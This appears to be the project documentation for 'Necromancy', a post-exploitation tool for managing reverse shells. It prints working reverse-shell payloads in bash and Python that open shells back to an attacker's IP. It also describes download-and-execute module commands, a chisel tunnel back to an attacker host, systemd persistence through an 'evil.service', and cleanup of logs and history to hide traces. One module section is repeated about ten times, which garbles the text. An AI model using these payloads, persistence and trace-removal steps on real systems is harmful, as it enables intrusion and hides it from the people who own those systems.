


# 📚 Necromancy Documentation

## 🎯 Overview

This comprehensive documentation covers all features, tools, and capabilities of Necromancy - the advanced post-exploitation shell manager.

## 📖 Table of Contents

1. [Core Features](#core-features)
2. [Command Line Interface](#command-line-interface)
3. [Interactive UI](#interactive-ui)
4. [File Manager](#file-manager)
5. [Network Tools](#network-tools)
6. [Post-Exploitation Modules](#post-exploitation-modules)
7. [Advanced Features](#advanced-features)
8. [Configuration](#configuration)
9. [Troubleshooting](#troubleshooting)
10. [Security](#security)

## 🎯 Core Features

### Session Management
- **Multiple Sessions**: Handle unlimited reverse shell connections simultaneously
- **Session Types**: Support for PTY, Basic, and Bind shell types
- **Auto-Upgrade**: Automatic shell upgrade to full PTY functionality
- **Persistence**: Maintain connections across network interruptions
- **Session Logging**: Optional logging of all session activities

### Multi-Platform Support
- **Linux**: Full support for amd64 and arm64 architectures
- **macOS**: Native support for both Intel and Apple Silicon
- **Windows**: Complete Windows support with PowerShell integration
- **Cross-Platform**: Consistent experience across all platforms

### Network Capabilities
- **Multi-Listener**: Listen on multiple ports simultaneously
- **Bind Shell**: Connect to existing bind shells
- **HTTP Server**: Built-in file server for quick transfers
- **Port Forwarding**: Local port forwarding capabilities
- **Network Discovery**: Automatic network interface detection

## 🚀 Command Line Interface

### Basic Reverse Shell Workflow


### Session Management Flow


### Basic Usage

```bash
# Start listener on default port (4444)
./necromancy

# Custom port configuration
./necromancy -p 8080
./necromancy -p 4444,4445,4446

# Connect to bind shell
./necromancy -c target.com -p 4444

# With HTTP file server
./necromancy -p 4444 -s /path/to/files -w 8000
```

### Command Line Options

| Option | Short | Description | Default |
|--------|--------|-------------|---------|
| `--ports` | `-p` | Port(s) to listen on | 4444 |
| `--serve` | `-s` | Directory to serve via HTTP | - |
| `--web-port` | `-w` | HTTP server port | 8000 |
| `--interface` | `-i` | Local interface to bind | 0.0.0.0 |
| `--connect` | `-c` | Connect to bind shell host | - |
| `--maintain` | `-m` | Keep N sessions per target | 0 |
| `--no-log` | `-L` | Disable session log files | false |
| `--no-upgrade` | `-U` | Disable shell auto-upgrade | false |
| `--help` | `-h` | Show help message | - |

### Quick Commands

```bash
# Show available payloads
./necromancy --payloads

# List network interfaces
./necromancy -l

# Show version
./necromancy --version
```

## 🎮 Interactive UI

### Main Menu Navigation

```
┌─────────────────────────────────────────────────────────────┐
│                    Necromancy Main Menu                    │
│              Interactive reverse shell manager             │
├─────────────────────────────────────────────────────────────┤
│ [s] Sessions      - View and manage active sessions        │
│ [p] Payloads     - Show reverse shell payloads           │
│ [m] Modules       - Browse post-exploitation modules       │
│ [i] Interfaces    - List network interfaces               │
│ [n] Network Info  - Show network information              │
│ [q] Quit          - Exit application                    │
└─────────────────────────────────────────────────────────────┘
```

### Session Management

```
┌─────────────────────────────────────────────────────────────┐
│ Active Sessions (3)                                        │
├─────────────────────────────────────────────────────────────┤
│ ID │ Host            │ Port │ Type  │ Status │ Duration  │
│────┼─────────────────┼──────┼───────┼────────┼───────────│
│ 1  │ 192.168.1.100   │ 4444 │ PTY   │ Active │ 00:15:23  │
│ 2  │ 10.0.0.50       │ 4445 │ Basic │ Active │ 00:08:45  │
│ 3  │ target.com      │ 8080 │ Bind  │ Active │ 00:02:10  │
└─────────────────────────────────────────────────────────────┘
```

### Session Commands

- `interact <ID>` - Connect to specific session
- `kill <ID>` - Terminate specific session
- `kill *` - Terminate all sessions
- `upload <local> <remote>` - Upload file to target
- `download <remote> <local>` - Download file from target

## 📁 File Manager

### File Manager Interface

```
┌─────────────────────────────────────────────────────────────┐
│ File Manager - /home/user/target                         │
├─────────────────────────────────────────────────────────────┤
│ Name              │ Size    │ Modified     │ Permissions  │
│──────────────────┼─────────┼──────────────┼──────────────│
│ 📁 Documents     │ 4.0 KB  │ 2024-01-15   │ drwxr-xr-x   │
│ 📁 Downloads     │ 12.5 KB │ 2024-01-14   │ drwxr-xr-x   │
│ 📄 config.txt    │ 1.2 KB  │ 2024-01-13   │ -rw-r--r--   │
│ 📄 script.sh     │ 856 B   │ 2024-01-12   │ -rwxr-xr-x   │
│ 🔗 link.txt      │ 24 B    │ 2024-01-11   │ lrwxrwxrwx   │
└─────────────────────────────────────────────────────────────┘
```

### File Manager Commands

#### Navigation
- `↑/↓` - Navigate files and directories
- `Enter` - Open directory or execute file
- `Backspace` - Go to parent directory
- `r` - Refresh current directory

#### File Operations
- `d` - Download selected file
- `u` - Upload file to current directory
- `x` - Delete selected file/directory
- `n` - Create new file
- `m` - Create new directory
- `e` - Edit selected file
- `c` - Copy file path
- `v` - Paste copied file

#### Special Keys
- `a` - Select all files
- `h` - Show help
- `q` - Exit file manager
- `F12` - Detach from session

## 🌐 Network Tools

### Network Information Display

```
┌─────────────────────────────────────────────────────────────┐
│ Network Information                                        │
├─────────────────────────────────────────────────────────────┤
│ Local IP: 192.168.1.50                                   │
│ Public IP: 203.0.113.45                                  │
│ Location: Jakarta, Indonesia                               │
│ Provider: Example ISP                                    │
│                                                            │
│ Listening Ports:                                          │
│ - 0.0.0.0:4444 (TCP)                                     │
│ - 0.0.0.0:4445 (TCP)                                     │
│ - 0.0.0.0:8000 (HTTP)                                    │
└─────────────────────────────────────────────────────────────┘
```

### Payload Updates Feature

The **Payload Updates** feature automatically updates generated payloads with real network information:

1. **IP Detection**: Automatically detects local and public IP addresses
2. **Port Configuration**: Uses configured listening ports instead of defaults
3. **Template Replacement**: Replaces `YOUR_IP` with actual IP addresses
4. **Multi-IP Support**: Prefers public IP when available, falls back to local IP
5. **Real-time Updates**: Payloads refresh when network information changes

Example of payload update process:
```bash
# Before update:
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1

# After update (with public IP):
bash -i >& /dev/tcp/203.0.113.45/4444 0>&1

# After update (with local IP only):
bash -i >& /dev/tcp/192.168.1.50/4444 0>&1
```

### Payload Generator

```
┌─────────────────────────────────────────────────────────────┐
│ Available Reverse Shell Payloads                          │
├─────────────────────────────────────────────────────────────┤
│ [1] Bash         - Classic bash TCP reverse shell          │
│ [2] Python       - Python reverse shell with PTY         │
│ [3] Netcat       - Netcat traditional reverse shell       │
│ [4] PowerShell   - Windows PowerShell reverse shell      │
│ [5] PHP          - PHP reverse shell                    │
│ [6] Ruby         - Ruby reverse shell                    │
│ [7] Perl         - Perl reverse shell                    │
│                                                            │
│ Press number to copy, 'r' to refresh, 'q' to quit       │
└─────────────────────────────────────────────────────────────┘
```

### Payload Examples with IP Updates

#### Before IP Detection (Template):
```bash
# Template payload (shows YOUR_IP placeholder)
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

#### After IP Detection (Actual IPs):
```bash
# With public IP detected
bash -i >& /dev/tcp/203.0.113.45/4444 0>&1

# With local IP only
bash -i >& /dev/tcp/192.168.1.50/4444 0>&1

# With custom port
bash -i >& /dev/tcp/203.0.113.45/8080 0>&1
```

#### Payload Update Process:
1. **Network Detection**: System detects local and public IP addresses
2. **IP Selection**: Prefers public IP when available, falls back to local IP
3. **Port Configuration**: Uses configured listening ports (default 4444 or custom)
4. **Template Replacement**: Replaces `YOUR_IP` with actual IP address
5. **Real-time Updates**: Payloads refresh when network info changes

#### Supported Payload Types:
- **🐚 Bash**: Traditional bash reverse shell
- **🐍 Python**: Python with PTY support for full TTY
- **🕸️ Netcat**: FIFO-based netcat reverse shell
- **💎 PowerShell**: Windows PowerShell reverse shell
- **🐘 PHP**: PHP reverse shell for web servers
- **💎 Ruby**: Ruby reverse shell
- **🐪 Perl**: Perl reverse shell

## 🛠️ Post-Exploitation Modules

### Available Modules

| Module | Description | Platform | Category |
|--------|-------------|----------|----------|
| **PEASS** | Privilege escalation awesome scripts suite | Linux/Windows | 🎯 Enumeration |
| **RedSun** | Windows vulnerability enumeration from RedSun | Windows | 🎯 Enumeration |
| **BlueHammer** | Windows exploitation toolkit from BlueHammer | Windows | ⚡ Exploitation |
| **Linux Exploit Suggester** | Automated exploit recommendations | Linux | ⚡ Exploitation |
| **LSE** | Linux smart enumeration tool | Linux | 🎯 Enumeration |
| **Potato Exploits** | Windows privilege escalation methods | Windows | 🔑 Privilege Escalation |
| **Chisel** | Fast TCP/UDP tunnel over HTTP | Multi | 🚇 Tunneling |
| **Ligolo** | Reverse proxy for penetration testing | Multi | 🚇 Tunneling |
| **Ngrok** | Secure tunnel to localhost | Multi | 🚇 Tunneling |
| **Meterpreter** | Upgrade to Metasploit sessions | Multi | 🚀 Session Upgrade |
| **Cleanup** | Remove tracks and artifacts | Multi | 🧹 Cleanup |
| **Traitor** | Automated Linux privilege escalation | Linux | 🔑 Privilege Escalation |
| **UAC Bypass** | Windows UAC bypass techniques | Windows | 🔑 Privilege Escalation |
| **Panix** | Linux persistence via systemd | Linux | 🕰️ Persistence |
| **Memory Dump** | Process memory analysis | Linux | 🧠 Forensics |

### Module Usage

```bash
# List all modules
> m

# Execute specific module
> m peass

# Get module help
> m help peass
```

### Module Categories and Examples

#### 🎯 Enumeration Modules
- **PEASS**: Comprehensive privilege escalation enumeration
- **LSE**: Linux Smart Enumeration for detailed system analysis
- **Linux Exploit Suggester**: Automated exploit recommendations based on system version

#### 🔑 Privilege Escalation Modules
- **Potato Exploits**: Windows privilege escalation (RottenPotato, JuicyPotato, SweetPotato)
- **Traitor**: Automated Linux privilege escalation
- **UAC Bypass**: Windows User Account Control bypass techniques

#### 🚇 Tunneling and Pivoting Modules
- **Chisel**: Fast TCP/UDP tunnel over HTTP
- **Ligolo**: Advanced reverse proxy for penetration testing
- **Ngrok**: Secure tunnel to localhost for external access

#### 🚀 Session Upgrade Modules
- **Meterpreter**: Upgrade to Metasploit sessions for advanced post-exploitation

#### 🧹 Cleanup and Persistence Modules
- **Cleanup**: Remove logs, history, and artifacts from target system
- **Panix**: Linux persistence via systemd services

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

#### 🧠 **Forensics & Analysis Modules**
- **🧠 Memory Dump**: Analyzes and extracts process memory for investigation
- **📊 System Info**: Collects comprehensive target intelligence

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

#### 🌞 **RedSun & 🔨 BlueHammer Modules**
- **🌞 RedSun PEAS**: Windows vulnerability enumeration from RedSun repository
  - **🔍 Windows Vulnerabilities**: Comprehensive Windows security analysis
  - **🛡️ Defense Analysis**: Identifies security controls and bypasses
- **🔨 BlueHammer**: Windows exploitation toolkit from BlueHammer repository
  - **🔥 Advanced Exploits**: Tests Windows CVEs and vulnerabilities
  - **🛡️ Windows Defenses**: Bypasses security mechanisms

### Detailed Module Examples

#### PEASS (Privilege Escalation Awesome Scripts Suite)
```bash
# Run PEASS on Linux target
> m peass
# This executes: curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Run PEASS on Windows target  
> m peass
# This executes: iwr -useb https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe -OutFile winpeas.exe; .\winpeas.exe
```

#### Linux Exploit Suggester
```bash
# Run exploit suggester
> m linux_exploit_suggester
# This analyzes kernel version and suggests applicable exploits
# Output: [+] Possible Exploits: dirtycow, privilege_escalation_1, etc.
```

#### Potato Exploits (Windows)
```bash
# Run potato exploits
> m potato
# This tests various potato exploits: RottenPotato, JuicyPotato, SweetPotato
# Output: [+] Testing JuicyPotato... [+] Success! SYSTEM privileges obtained
```

#### Tunneling Tools
```bash
# Setup Chisel tunnel
> m chisel
# This sets up: chisel server -p 8080 --reverse
# Then on target: chisel client http://attacker:8080 R:socks

# Setup Ngrok tunnel
> m ngrok
# This configures ngrok for secure external access
```

#### Memory Analysis
```bash
# Dump process memory
> m memory_dump
# This creates memory dump of critical processes for analysis
# Output: [+] Memory dump saved to /tmp/memory_dump_[pid].dmp
```

#### Persistence (Panix)
```bash
# Setup systemd persistence
> m panix
# This creates systemd service for persistence
# Service: /etc/systemd/system/evil.service
# Command: systemctl enable evil.service
```

#### Cleanup
```bash
# Remove traces
> m cleanup
# This removes: logs, history, temp files, artifacts
# Actions: clear logs, remove temp files, clear history
```

## ⚙️ Advanced Features

### Session Persistence

```bash
# Configure session persistence
./necromancy -p 4444 -m 3

# This will maintain 3 sessions per target
# Automatically spawns new sessions if count drops below 3
```

### Port Forwarding

```bash
# Forward local port to remote target
> forward 8080 192.168.1.100:80

# List active forwards
> forwards

# Remove forward
> unforward 8080
```

### Session Logging

```bash
# Enable session logging
./necromancy -p 4444

# Logs are saved to:
# logs/session_1_192.168.1.100_4444.log
# logs/session_2_10.0.0.50_4445.log
```

### Custom Payloads

```bash
# Create custom payload directory
mkdir -p ~/.necromancy/payloads

# Add custom payload file
cat > ~/.necromancy/payloads/custom.sh << 'EOF'
#!/bin/bash
# Custom reverse shell payload
bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
EOF
```

## 🔧 Configuration

### Configuration Files

```bash
# Global configuration
~/.necromancy/config.yaml

# Module configurations
~/.necromancy/modules/

# Custom payloads
~/.necromancy/payloads/

# Session logs
~/.necromancy/logs/
```

### Environment Variables

```bash
# Set default ports
export NECROMANCY_PORTS="4444,4445,4446"

# Set default interface
export NECROMANCY_INTERFACE="0.0.0.0"

# Disable auto-upgrade
export NECROMANCY_NO_UPGRADE="true"

# Disable logging
export NECROMANCY_NO_LOG="true"
```

## 🐛 Troubleshooting

### Common Issues

#### Build Issues
```bash
# Missing dependencies
go mod download
go mod tidy

# Cross-compilation issues
GOOS=linux GOARCH=amd64 go build -o necromancy-linux-amd64 .
```

#### Runtime Issues

**Sessions not connecting:**
- Check firewall settings
- Verify port availability
- Test with `nc -lvp 4444`

**Banner not displaying:**
- Check ascii.txt permissions
- Verify terminal color support
- Test with `echo $TERM`

**File manager freezing:**
- Use simplified commands (already implemented)
- Check target system compatibility
- Verify shell type support

#### UI Issues

**Terminal size problems:**
- Implement SIGWINCH handling
- Use `stty size` to check dimensions
- Test with different terminal emulators

**Color display issues:**
- Check terminal color support
- Use 256-color palette
- Test with `tput colors`

## 🔒 Security

### Security Best Practices

1. **Authorized Testing Only**
   - Only use on systems you own or have permission to test
   - Obtain proper written authorization
   - Follow responsible disclosure guidelines

2. **Network Isolation**
   - Use isolated network segments when possible
   - Implement proper network segmentation
   - Monitor for unexpected connections

3. **Session Security**
   - Use encrypted connections when available
   - Implement proper session isolation
   - Regularly review access logs

4. **Operational Security**
   - Document all actions taken
   - Maintain communication with stakeholders
   - Plan for thorough cleanup

### Security Features

- **No Hardcoded Credentials**: All credentials must be explicitly configured
- **Session Isolation**: Sessions are isolated from each other
- **Input Validation**: Basic input validation for user commands
- **Error Sanitization**: Errors are sanitized to prevent information leakage
- **Secure Defaults**: Secure configuration options by default

### Reporting Security Issues

Please report security vulnerabilities privately to:
- Email: security@necromancy-project.com
- GitHub Security Advisories

## 📚 Additional Resources

### External Documentation
- [Go Documentation](https://golang.org/doc/)
- [tview Documentation](https://github.com/rivo/tview)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

### Community Resources
- [GitHub Repository](https://github.com/Aryma-f4/necromancy)
- [Issue Tracker](https://github.com/Aryma-f4/necromancy/issues)
- [Discussions](https://github.com/Aryma-f4/necromancy/discussions)

---

**Version**: 1.2.0  
**Last Updated**: 2026-04-23  
**Repository**: https://github.com/Aryma-f4/necromancy